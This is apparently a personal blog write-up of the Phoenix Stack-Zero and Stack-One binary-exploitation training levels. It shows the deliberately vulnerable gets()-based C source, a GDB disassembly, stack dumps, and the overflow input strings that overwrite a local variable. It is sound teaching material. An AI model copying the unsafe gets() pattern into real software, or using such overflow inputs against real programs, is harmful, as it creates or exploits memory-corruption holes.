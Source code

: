 ```yaml
---
title: Phoenix Stack-Zero and One
author: Marius Kimmina
date: 2019-10-12 14:10:00 +0800
categories: [Binary Exploitation]
tags: [Buffer Overflow]
published: true
---
```


### 0x0. Introduction
Phoenix is an entry level IT-Security challenge hosted at *https://exploit.education/*. It consists of multiple levels introducing participants to the concepts of binary exploitation as well as some network-security fundamentals in later levels. I myself am fairly new to this field and hope to learn a lot during these challenges and will (probably) post my Write-ups for all of them as I advance.


### 0x1. Setup

Download the Phoenix amd64 VM from **https://exploit.education/downloads/**   
The download contains a bash script that you will need to make executable with chmod +x name-of-bash.sh
If you have qemu installed on your system, the VM should begin to boot when you execute the script.

You can of course just do everything within the VM itself, i prefer to ssh into it to have a more familiar shell and copy paste capabilities. If you want to do that as well you will notice that you can not ssh straight to the IP of your VM, instead if you look into the boot script you will find the following line:
```bash
-netdev user,id=unet,hostfwd=tcp:127.0.0.1:2222-:22 \
```

This means that port 22 of your VM is getting forwarded to localhost or 127.0.0.1 on port 2222.

```bash
ssh user@127.0.0.1 -p 2222
```

and login with user/user which are default credentials as documented on https://exploit.education/phoenix/getting-started/

### 0x2. Taking a look at the source code

The code can be found at https://exploit.education/phoenix/stack-zero/

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
"Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
struct {
char buffer[64];
volatile int changeme;
} locals;

printf("%s\n", BANNER);

locals.changeme = 0;
gets(locals.buffer);

if (locals.changeme != 0)
{
puts("Well done, the 'changeme' variable has been changed!");
} else {
puts(
"Uh oh, 'changeme' has not yet been changed. Would you like to try "
"again?");
}

exit(0);
}
```

Aside from the banner printing, this program does two simple things. It takes one argument and puts it into a variable called buffer which has a size of 64. It also has Integer variable called changeme which gets set to 0 and is never changed. At the end the program checks if "changeme" is still zero and prints a statement depend on the result.
So our challenge here is to change the changeme Variable and for the first level its made pretty obvious that this program is vulnerable to a Bufferoverflow.

There are some things to be noted tho.
##### Why are the variables buffer and chageme in a struct?
Contiguous(adjacent) memory locations are used to store structure members in memory. Or in other words: This way our variables will always end up next to each other in memory.

##### Why is changeme "volatile"?
This tells the compiler to not optimize the usage of this variable,
without the volatile keyword the compiler would just skip the if statement altogether because you know the variable is never changed inside the code so why would the compiler bother to check if it changed anyway?

##### How do you know that this is vulnerable?
We take user input in form of an argument and put it right into the buffer variable with no security checks whatsoever. If you look up the manual page for "gets" you will see the following:

```
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read
and because gets() will continue to store characters past the end
of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```

### 0x3. Exploring and Exploiting the program in GDB

Let's start with taking a look at the assembler code, 'disassemble main' will produce the following output:

```
Dump of assembler code for function main:
0x00000000004005dd <+0>: push rbp
0x00000000004005de <+1>: mov rbp,rsp
0x00000000004005e1 <+4>: sub rsp,0x60
0x00000000004005e5 <+8>: mov DWORD PTR [rbp-0x54],edi
0x00000000004005e8 <+11>: mov QWORD PTR [rbp-0x60],rsi
0x00000000004005ec <+15>: mov edi,0x400680
0x00000000004005f1 <+20>: call 0x400440 <puts@plt>
0x00000000004005f6 <+25>: mov DWORD PTR [rbp-0x10],0x0
0x00000000004005fd <+32>: lea rax,[rbp-0x50]
0x0000000000400601 <+36>: mov rdi,rax
0x0000000000400604 <+39>: call 0x400430 <gets@plt>
0x0000000000400609 <+44>: mov eax,DWORD PTR [rbp-0x10]
0x000000000040060c <+47>: test eax,eax
0x000000000040060e <+49>: je 0x40061c <main+63>
0x0000000000400610 <+51>: mov edi,0x4006d0
0x0000000000400615 <+56>: call 0x400440 <puts@plt>
0x000000000040061a <+61>: jmp 0x400626 <main+73>
0x000000000040061c <+63>: mov edi,0x400708
0x0000000000400621 <+68>: call 0x400440 <puts@plt>
0x0000000000400626 <+73>: mov edi,0x0
0x000000000040062b <+78>: call 0x400450 <exit@plt>
End of assembler dump.
```

Now I set two break points one before our input but with the stack already in place and one after our input, in this case I choose:

```
break *0x4005e5
break *0x400626
```

Now to have a good view on what happens on the stack I define a command "stack" that will print all words associated with it

```
gdb➤ define stack
Type commands for definition of "stack".
End with a line saying just "end"
>x/25wx $rsp
>end
```

now type "run" followed by "stack" and you should see the following output

```
0x7fffffffe5d0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe5e0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe5f0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe600: 0x00000000 0x00000000 0xffffe688 0x00007fff
0x7fffffffe610: 0x00000001 0x00000000 0xffffe698 0x00007fff
0x7fffffffe620: 0x004005dd 0x00000000 0x00000000 0x00000000
0x7fffffffe630: 0x00000001
```

This is our Stack with rsp at 0x7fffffffe5d0 and rbp at 0x7fffffffe630.  
But we still need to know where our "changeme" variable is located to solve this challenge meaningful.
We know from the source code that changeme gets first initialized and later set to 0, since there is only one variable
getting set to zero in this code its pretty easy to find:

```
0x00000000004005f6 <+25>: mov DWORD PTR [rbp-0x10],0x0
```

Therefore, changeme is located at rbp-0x10 or 0x7fffffffe620.  
Hit run again this time you should get prompted for input, a commonly used pattern for that can easily be recognized in memory is the alphabet.
In case you are to lazy to craft your own input this one will do:

```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

This will of course already give you the "Well done, the 'changeme' variable has been changed!" output, but lets see what's really going on.
You should have hit the second breakpoint now so type "stack" again and see what changed.

```
0x7fffffffe5d0: 0xffffe688 0x00007fff 0x00000000 0x00000001
0x7fffffffe5e0: 0x41414141 0x42424242 0x43434343 0x44444444
0x7fffffffe5f0: 0x45454545 0x46464646 0x47474747 0x48484848
0x7fffffffe600: 0x49494949 0x4a4a4a4a 0x4b4b4b4b 0x4c4c4c4c
0x7fffffffe610: 0x4d4d4d4d 0x4e4e4e4e 0x4f4f4f4f 0x50505050
0x7fffffffe620: 0x51515151 0x52525252 0x53535353 0x54545454
0x7fffffffe630: 0x55555555
```

I have to admit I have no idea why our input starts at 0x7fffffffe5e0 and not 0x7fffffffe5d0, so if you do please let me know at mindslave.blog@protonmail.com.
What we can clearly see here tho is that "changeme" got overwritten by the letter Q (0x51), you can just do a quick google search for ASCII-table to know which letter translates to which hexadecimal number.
Knowing this we have not just solved this level but the next one (StackOne) is also trivial since all you have to is to overwrite changeme with a specific value, so just use AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP followed by the value you want "changeme" to have.

```
run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPbYlI
Starting program: /opt/phoenix/amd64/stack-one AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPbYlI
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

This is my first ever blog post and I doubt anyone ever reads it all the way but if you did, thank you very much :)







